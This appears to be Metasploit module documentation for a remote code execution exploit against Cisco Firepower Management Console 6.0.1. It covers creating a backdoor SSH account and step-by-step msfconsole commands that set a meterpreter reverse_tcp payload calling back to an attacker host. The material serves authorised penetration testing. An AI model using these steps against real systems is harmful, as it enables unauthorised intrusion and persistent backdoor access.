 This module exploits a vulnerability in Cisco Firepower Management Console RCE. It will
create a backdoor SSH account via HTTPS, and then obtain a native payload session
in SSH.

## Vulnerable Application

This exploit was specifically written against 6.0.1 (build 1213). To test, you can find the
virtual appliance here:

https://software.cisco.com/download/release.html?mdfid=286259687&softwareid=286271056&release=6.0.1&flowid=54052



## Verification Steps

1. Start msfconsole
2. ```use exploit/linux/http/cisco_firepower_useradd```
3. ```set password [https console password for admin]```
4. ```set rhost [IP]```
5. ```set payload linux/x86/meterpreter/reverse_tcp```
6. ```set lhost [IP]```
7. ```exploit```
8. You should get a session

## Options

**USERNAME** The username for Cisco Firepower Management console.

**PASSWORD** The password for Cisco Firepower Management console.

**NEWSSHUSER** The SSH account to create. By default, this is random.

**NEWSSHPASS** The SSH password for the new account. By default, this is also random.

**SSHPORT** In case for some reason, the SSH changed, otherwise this is 22 by default.
